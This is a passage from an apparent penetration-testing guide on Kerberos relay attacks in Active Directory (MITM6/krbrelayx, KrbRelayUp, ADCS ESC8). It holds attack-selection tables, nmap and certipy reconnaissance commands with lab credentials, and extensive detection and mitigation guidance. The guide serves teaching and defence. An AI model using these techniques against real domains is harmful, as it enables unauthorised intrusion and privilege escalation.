LDAP        192.168.56.10   389   DC01   LDAP Channel Binding NOT required
```

| Scenario | Attack 1 / 2 viable? | What to do |
|---|---|---|
| LDAP signing: Not Enforced + Channel Binding: Not Required | Yes — attack proceeds as documented | Proceed |
| LDAP signing: Required + Channel Binding: Not Required | Attack 1/2 may fail — signing prevents relay of unsigned LDAP operations | Try LDAPS relay with `-target ldaps://192.168.56.10` in krbrelayx (requires no channel binding on LDAPS too) |
| Channel Binding: Required | Attack 1/2 blocked — relayed sessions are rejected | Pivot to Attack 3 (ADCS) or other techniques |

### When Does Each Relay Attack Apply?

| Situation | Best attack |
|---|---|
| On the same subnet as victim Windows machines; IPv6 enabled; no channel binding | Attack 1 — MITM6 + krbrelayx; broadest impact, no pre-existing access to victims |
| Already running code on a domain-joined Windows machine as any domain user | Attack 2 — KrbRelayUp; zero-dependency local escalation to SYSTEM |
| ADCS web enrollment (`/certsrv`) is present; channel binding is configured on LDAP; DC is reachable | Attack 3 — ADCS relay; bypasses the LDAP channel binding protection entirely |
| Channel binding required on LDAP AND no ADCS present | None of these; consider Shadow Credentials, [Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/), or other delegation chains |

### IPv6 Disable Gotcha

MITM6 requires that victim machines poll for an IPv6 DNS server via DHCPv6. Many organizations have IPv6 disabled on servers via `Disable-NetAdapterBinding` or via GPO (Group Policy Object — a policy applied domain-wide or per-OU; a GPO disabling IPv6 will prevent DHCPv6 polling on all affected machines). Check whether victim workstations (not servers — workstations are more likely to have IPv6 enabled) respond to DHCPv6 before relying on Attack 1.

```bash
# Quick check — send a DHCPv6 Solicit and see if anything replies
sudo nmap -6 --script=dhcp-discover -p 547 ff02::1:2
```

If the subnet shows no DHCPv6 responses, IPv6 is likely disabled. Fall back to Attack 2 or 3.

### ADCS EPA Hardening Check

Before Attack 3, verify the ADCS enrollment endpoint lacks EPA:

```bash
certipy find \
  -u jdoe@radiant.local \
  -p 'Password123!' \
  -dc-ip 192.168.56.10 \
  -vulnerable
```

```
[*] Finding vulnerable certificate templates...
[!] ESC8 - AD CS HTTP Enrollment
    CA Name           : radiant-CA
    Enrollment Endpoint: http://ca.radiant.local/certsrv/
    Extended Protection: Disabled
```

`Extended Protection: Disabled` means EPA is off — Attack 3 will work. If it shows `Enabled`, the relay will fail because the TLS-bound channel validation will reject the relayed session.

### Protected Users: Impersonation Target Restriction

In both Attack 1's RBCD chain and Attack 2's RBCD chain, the `-impersonate` / `/impersonateuser` target must not be a member of the Protected Users security group (introduced in Windows Server 2012 R2 — members cannot hold forwardable Kerberos tickets, which S4U2Proxy requires). If `Administrator` is in Protected Users, target a different local admin account. The attacker-controlled machine account (`ATTACKPC$`, `KrbRelay$`) does not need to avoid Protected Users — only the impersonation target does.


## How Do You Detect and Defend Against Kerberos Relay Attacks?

### What Logs Does a Kerberos Relay Attack Generate?

- **Event ID 4741** at the DC — computer account created; fires when `addcomputer.py` (Attack 1 prep) or KrbRelayUp's `-CreateNewComputerAccount` (Attack 2) adds a machine account; the creator field will be a regular user, which is anomalous in hardened environments
- **Event ID 5136** at the DC — directory service object modified; fires when `msDS-AllowedToActOnBehalfOfOtherIdentity` is written (Attack 1 and 2); the log includes the target object DN and attribute name; **this event requires "Audit Directory Service Changes" to be enabled** — it is off by default
- **Event ID 4769** at the DC — TGS-REQ; fires for every S4U2Self and S4U2Proxy request; the S4U2Proxy event will show `Administrator` as the client principal requesting a ticket to `cifs/ws01.radiant.local`, which is unusual if `Administrator` was not observed logging in interactively
- **Event ID 4624** at target machine — logon for the impersonated account (`Administrator`) via network logon type 3 (Kerberos) when `psexec.py` or `wmiexec.py` connects
- **Event ID 4886** at ADCS — certificate requested; fires when the relay successfully submits a certificate request to the CA in Attack 3; includes the requester account (`DC01$`) and template name (`Machine`)
- **Event ID 4887** at ADCS — certificate issued; fires when the CA approves the request; together with 4886, this pair is high-fidelity for ESC8 exploitation

### What Logs Does a Kerberos Relay Attack Not Generate?

- **MITM6 DHCPv6 poisoning** — sending DHCPv6 replies on a local subnet generates no Windows event; it is invisible without network-level monitoring (packet capture or switch port security alerts)
- **DNS spoofing replies** — MITM6's DNS responses appear only in network traffic; no event fires on victim machines when they accept a spoofed DNS reply
- **LDAP bind via krbrelayx** — an LDAP bind from a Kerberos ticket fires no dedicated alert; it looks like any other LDAP authentication unless 5136 auditing is enabled and correlation is performed
- **KrbRelayUp's DCOM coercion** — the local COM activation that triggers SYSTEM auth fires no alert by default; it blends with ordinary inter-process communication
- **Reading `msDS-AllowedToActOnBehalfOfOtherIdentity`** — LDAP reads of this attribute generate no event; an attacker enumerating current RBCD configurations across all machine objects is completely silent
- **The S4U chain** — both S4U2Self and S4U2Proxy requests appear as normal 4769 TGS-REQ events; without correlating the requesting account (`ATTACKPC$`) against the impersonated subject (`Administrator`) in the same chain, they look routine

### How Do You Mitigate Kerberos Relay Attacks?

- **Disable IPv6 if unused** — set the IPv6 interface binding policy via GPO to prevent DHCPv6 polling; if IPv6 is not operationally required, disabling it eliminates Attack 1's entire entry vector; use `Disable-NetAdapterBinding -Name * -ComponentID ms_tcpip6` enforced via GPO
- **Enable LDAP channel binding and LDAP signing** — Microsoft KB4520412 and the March 2020 advisory describe how to enforce these; set `LdapEnforceChannelBinding = 2` and `LDAPServerIntegrity = 2` on all DCs to block LDAP relay for Attacks 1 and 2; **test in audit mode first** — misconfiguration can break legitimate LDAP clients
- **Set `ms-DS-MachineAccountQuota` to 0** — prevents regular users from creating machine accounts; removes the primary SPN-acquisition path for Attacks 1 and 2; new machine accounts must be created by provisioning service accounts
- **Enforce EPA on ADCS web enrollment** — in the IIS (Internet Information Services — Microsoft's web server, used to host the ADCS enrollment endpoint) settings for the `/certsrv` site, set `Extended Protection for Authentication` to `Required`; this binds the Kerberos session to the TLS channel and breaks Attack 3
- **Add privileged accounts to Protected Users** — members cannot be impersonated via S4U2Proxy; limits the impact of Attacks 1 and 2 even after RBCD is configured
- **Enable "Audit Directory Service Changes"** — activates Event ID 5136 for writes to sensitive AD attributes including `msDS-AllowedToActOnBehalfOfOtherIdentity`; without this, RBCD configuration changes are invisible
- **Restrict ADCS web enrollment template enrollment rights** — the `Machine` template grants enrollment to `Domain Computers` by default; restrict it to specific computer groups or eliminate web enrollment entirely if only auto-enrollment via RPC is needed

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has dedicated alerts for "Suspected RBCD attack" (fires on new machine account + `msDS-AllowedToActOnBehalfOfOtherIdentity` write within a short window), "Suspected identity theft using Kerberos ticket" (anomalous S4U patterns), and "Active Directory attribute modification by a suspicious account"; MDI monitors Kerberos traffic directly off a DC sensor rather than relying on event forwarding
- **Microsoft Sentinel / Splunk** — correlate: Event 4741 (new machine account created by non-admin) → Event 5136 on a computer object (attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` modified) → Event 4769 (TGS-REQ where client SID differs from the service account expected for that SPN); the three-event chain within a 10-minute window is a high-confidence RBCD relay indicator
- **Network detection (Zeek / Suricata)** — DHCPv6 replies from a non-router host on an IPv4-only network are anomalous; Zeek's `dhcp.log` and `dns.log` will show DHCPv6 solicit/reply pairs and spoofed DNS answers; flag LDAP `ModifyRequest` operations targeting `msDS-AllowedToActOnBehalfOfOtherIdentity` by non-privileged accounts on port 389
- **BloodHound Enterprise** — continuous ACL monitoring; flags new `GenericWrite` / `GenericAll` paths that appear after an RBCD write, showing the newly established attack path to compromised machines before defenders notice manually
- **[Sysmon](/docs/blueteam/lolbins-hunting/) (System Monitor)** — Event ID 17/18 (named pipe creation/connection) and Event ID 10 (process access) on `lsass.exe` can surface KrbRelayUp's COM coercion; Event ID 1 (process creation) showing `KrbRelayUp.exe` with delegation-related command-line arguments is a direct indicator


## References

### Tools
- [krbrelayx](https://github.com/dirkjanm/krbrelayx) — Kerberos relay framework; supports relay to LDAP, LDAPS, HTTP; includes `addspn.py` and `dnstool.py` for DNS manipulation
- [MITM6](https://github.com/dirkjanm/mitm6) — IPv6 DNS takeover via DHCPv6 poisoning; by Dirk-jan Mollema
- [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) — local privilege escalation via Kerberos relay to LDAP; by Mor Davidovich (Dec0ne)
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts; `addcomputer.py`, `getST.py`, `rbcd.py`, `secretsdump.py`, `psexec.py`, `wmiexec.py`, `ticketConverter.py`
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit; `s4u`, `asktgt`, `ptt` actions used in delegation chains
- [Certipy](https://github.com/ly4k/Certipy) — Python tool for ADCS attack enumeration and exploitation; includes the `relay` and `auth` subcommands used in Attack 3

### Original Research
- Dirk-jan Mollema — "Relaying Kerberos over DNS with krbrelayx and mitm6" (2019); introduced the DNS-spoofing Kerberos relay technique and the krbrelayx toolset; describes the channel binding bypass via plain LDAP
- Mor Davidovich — KrbRelayUp (2022); documented and implemented the local DCOM-coercion Kerberos relay technique for domain-joined machines without MITM
- SpecterOps — "Certified Pre-Owned" (Will Schroeder / Lee Christensen, 2021); original ESC1–ESC8 ADCS attack research; ESC8 describes the HTTP relay path for machine certificate theft

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [RFC 4556 — PKINIT — Public Key Cryptography for Initial Authentication in Kerberos](https://www.rfc-editor.org/rfc/rfc4556)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
